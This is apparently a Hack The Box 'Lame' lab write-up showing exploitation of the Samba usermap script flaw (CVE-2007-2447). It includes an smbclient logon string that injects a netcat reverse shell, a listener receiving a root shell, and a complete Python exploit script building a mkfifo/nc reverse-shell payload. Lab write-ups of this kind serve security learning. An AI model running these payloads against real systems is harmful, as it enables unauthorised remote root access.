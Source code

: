 
## Exploitation:

### 1. Samba Exploit
Exploing using smbclient.
```bash
┌─[root@linux]─[/home/htb/lame] 
└──╼ #smbclient //10.10.10.3/tmp 
Enter WORKGROUP\niraz's password:  
Anonymous login successful 
Try "help" to get a list of possible commands. 
smb: \> logon "/=`nohup nc -nv 10.10.14.2 4444 -e /bin/sh`" 
Password:
```
and we get connection back to our machine.
```bash 
┌─[root@linux]─[/opt] 
└──╼ #nc -lvnp 4444 
listening on [any] 4444 ... 
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 53095
whoami 
root
```
### 2. Exploiting samba using python script
After Googling it let me to this [GitHub](https://github.com/amriunix/CVE-2007-2447) with a Python POC for the exploit. we can get a shell easily, by following the “install” instructions and then running the script:

But writing my own script, so that i can have some practice in writing code.
```python
import sys 
from smb.SMBConnection import SMBConnection

def exploit(rhost,rport,lhost,lport): 
    payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago' 
    username = "/=`nohup " + payload + "`" 
     
    smb_conn = SMBConnection(username, "", "", "") 
    try: 
        smb_conn.connect(rhost,rport) 
    except: 
        print("[+] Payload was sent but something went wrong - check netcat !")

def main(): 
    print("[*] CVE-2007-2447 - Samba usermap script") 
    if len(sys.argv) != 5: 
        print("(+)Usage: %s <rhost> <rport> <lhost> <lport> " % sys.argv[0]) 
    else: 
        print("[+] Connecting !") 
        rhost = sys.argv[1] 
        rport = sys.argv[2] 
        lhost = sys.argv[3] 
        lport = sys.argv[4] 
        exploit(rhost,rport,lhost,lport)

if __name__ == '__main__': 
    main()
```
running the above `python script` we get the root shell
```bash
┌─[root@linux]─[/home/htb/lame] 
└──╼ #python3 lame-smb-exploit.py 10.10.10.3 139 10.10.14.2 4444 
[*] CVE-2007-2447 - Samba usermap script 
```